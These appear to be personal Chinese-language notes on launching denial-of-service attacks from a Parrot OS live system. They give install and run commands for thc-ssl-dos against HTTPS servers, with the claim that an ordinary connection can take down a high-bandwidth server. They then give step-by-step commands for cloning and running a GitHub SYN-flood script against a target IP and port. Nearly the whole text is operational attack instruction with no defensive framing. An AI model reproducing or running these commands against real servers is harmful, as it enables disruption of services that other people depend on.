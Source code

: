 

用live模式打开parrot：

用bitvise连接。

```
uname -a  # 查看相关
```



## DOS:

#### **ssl-dos**:

服务器每次会处理300次/s的ssl请求
这种攻击方法和传统攻击不一样，使用普通带宽也可以考虑打30G带宽的服务器

`apt-get install thc-ssl-dos`安装

目标是打击https的网站：

```
thc-ssl-dos [目标ip] [目标ssl端口:443] --accept
```



#### syn flood:

syn洪水攻击

```
先安装：
apt install python-scapy
apt install python3-scapy
```

```
从gethub上下载：
git clone https://github.com/EmreOvunc/Python-SYN-Flood-Attack-Tool.git
cd Python-SYN-Flood-Attack-Tool
```

```
ls
ls -la
chmod 777 ./*
# 更改执行权限
```

```
用Python去运行：
python3 py3_synflood_cmd.py -t [目标ip：10.20.30.40] -p 8080 -c 5
python3 py3_SYN-Flood.py
python SYN-Flood.py
```

![image-20220111163648410](https://github.com/YTR1020/Trees/blob/main/Screenshot%20or%20pictures/HW/image-20220111163648410.png)
